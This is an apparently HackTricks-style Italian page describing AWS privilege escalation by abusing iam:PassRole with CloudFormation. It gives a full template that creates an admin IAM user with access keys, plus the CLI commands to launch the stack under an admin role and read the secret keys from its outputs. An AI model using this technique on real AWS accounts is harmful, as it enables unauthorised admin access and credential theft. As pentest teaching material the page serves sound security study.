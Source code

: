 # iam:PassRole, cloudformation:CreateStack,e cloudformation:DescribeStacks

{{#include ../../../../banners/hacktricks-training.md}}

Un attaccante potrebbe ad esempio utilizzare un **cloudformation template** che genera **chiavi per un utente admin** come:
```json
{
"Resources": {
"AdminUser": {
"Type": "AWS::IAM::User"
},
"AdminPolicy": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"Description": "This policy allows all actions on all resources.",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": ["*"],
"Resource": "*"
}
]
},
"Users": [
{
"Ref": "AdminUser"
}
]
}
},
"MyUserKeys": {
"Type": "AWS::IAM::AccessKey",
"Properties": {
"UserName": {
"Ref": "AdminUser"
}
}
}
},
"Outputs": {
"AccessKey": {
"Value": {
"Ref": "MyUserKeys"
},
"Description": "Access Key ID of Admin User"
},
"SecretKey": {
"Value": {
"Fn::GetAtt": ["MyUserKeys", "SecretAccessKey"]
},
"Description": "Secret Key of Admin User"
}
}
}
```
Poi **generare lo stack di cloudformation**:
```bash
aws cloudformation create-stack --stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::[REDACTED]:role/adminaccess \
--capabilities CAPABILITY_IAM --region us-west-2
```
**Aspetta un paio di minuti** affinché lo stack venga generato e poi **ottieni l'output** dello stack dove sono **memorizzate le credenziali**:
```bash
aws cloudformation describe-stacks \
--stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
--region uswest-2
```
### Riferimenti

- [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{{#include ../../../../banners/hacktricks-training.md}}
